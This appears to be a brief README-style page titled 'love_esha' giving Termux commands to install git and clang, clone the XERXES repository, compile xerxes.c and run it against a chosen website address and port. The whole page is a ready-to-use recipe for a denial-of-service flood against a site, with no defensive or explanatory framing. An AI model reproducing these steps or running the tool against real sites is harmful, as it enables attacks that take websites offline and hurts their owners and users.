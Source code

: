 # love_esha
pkg up -y pkg install git -y pkg install clang -y git clone https://github.com/XCHADXFAQ77X/XERXES cd XERXES chmod +x * clang xerxes.c -o xerxes ./xerxes www.site.com 80  Here : www.site.com = site address  Here : 80 = Port Number
